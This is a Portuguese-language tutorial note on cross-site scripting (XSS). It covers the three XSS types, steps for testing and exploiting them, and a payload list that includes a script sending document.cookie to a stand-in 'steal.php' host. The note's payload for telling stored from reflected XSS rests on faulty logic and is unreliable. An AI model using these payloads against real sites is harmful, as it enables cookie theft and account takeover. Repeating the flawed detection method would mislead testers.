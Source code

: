 ```yaml
---
folder: "[[Vulnerabilities]]"
---
```

**O que é Cross-Site Scripting (XSS)?**

  A Cross-Site Scripting (XSS) é uma vulnerabilidade de segurança que permite que um atacante injete código malicioso em uma página web, permitindo que o código seja executado pelo navegador do usuário. Isso ocorre quando um site não valida adequadamente as entradas de usuário e as utiliza para gerar conteúdo dinâmico.

  


**Como funciona?**

- Aqui está um exemplo de como funciona a XSS:
- Um usuário envia uma solicitação HTTP para um site, incluindo uma entrada maliciosa, como um parâmetro de consulta ou um campo de formulário.
- O site processa a solicitação e utiliza a entrada do usuário para gerar conteúdo dinâmico, como uma página HTML.
- Se o site não validar adequadamente a entrada do usuário, o código malicioso pode ser injetado na página e executado pelo navegador do usuário.

**Tipos de XSS**

Existem três tipos principais de XSS:
- **Stored XSS**: O código malicioso é armazenado no servidor e é executado quando outros usuários acessam a página.
- **Reflected XSS**: O código malicioso é refletido de volta para o usuário na forma de uma página HTML.
- **DOM-based XSS**: O código malicioso é executado no lado do cliente, modificando o DOM (Document Object Model) da página.

**Como testar se um site é vulnerável?**

- Para testar se um site é vulnerável à XSS, você pode seguir os seguintes passos:
- Identifique os pontos de entrada do site, como campos de formulário, parâmetros de consulta e cabeçalhos HTTP.
- Insira entradas maliciosas nos pontos de entrada identificados, como código JavaScript (por exemplo, <script>alert('XSS')</script>).
- Verifique se o site executa o código malicioso e se retorna alguma saída.
- Se o site executar o código malicioso, é provável que seja vulnerável à XSS.

**Como explorar essa vulnerabilidade?**

- Para explorar a vulnerabilidade de XSS, você pode seguir os seguintes passos:
- Identifique o tipo de XSS que está sendo explorado (Stored, Reflected ou DOM-based).
- Construa um payload malicioso que execute uma ação desejada (por exemplo, roubar credenciais, redirecionar para um site falso, etc.).
- Insira o payload malicioso no ponto de entrada vulnerável.
- Verifique se o payload foi executado com sucesso.

**Payloads:**

- Aqui estão alguns exemplos de payloads que podem ser utilizados para explorar a vulnerabilidade de XSS:
- **<script>alert('XSS')</script>**: Executa um alerta JavaScript com a mensagem "XSS".
- **<script>document.location='http://example.com'</script>**: Redireciona o usuário para um site falso.
- **<script>var img = new Image(); img.src = '**[**http://example.com/steal.php?cookie=**](http://example.com/steal.php?cookie=)**' + document.cookie;</script>**: Rouba as credenciais do usuário e envia para um servidor remoto.

**Payload para identificar o tipo de XSS:**

- Aqui está um exemplo de payload que pode ser utilizado para identificar o tipo de XSS:



1<script>
2 if (document.cookie) {
3 alert('Stored XSS');
4 } else {
5 alert('Reflected XSS ou DOM-based XSS');
6 }
7</script>

  

  Ou:

  

  [**http://example.com/index.php?**](http://.)q=<script>%20if%20(document.cookie)%20{%20alert(%27Stored%20XSS%27);%20}%20else%20{%20alert(%27Reflected%20XSS%20ou%20DOM-based%20XSS%27);%20}%20</script>




  Este payload verifica se o código malicioso é armazenado no servidor (Stored XSS) ou se é refletido de volta para o usuário (Reflected XSS ou DOM-based XSS).


**Observações:**

- É importante lembrar que a exploração de vulnerabilidades de segurança deve ser feita de forma ética e responsável.
- É fundamental respeitar as leis e regulamentações aplicáveis e não causar danos a terceiros.
- É recomendável que os testes de segurança sejam realizados em ambientes controlados e com a permissão dos proprietários do site.

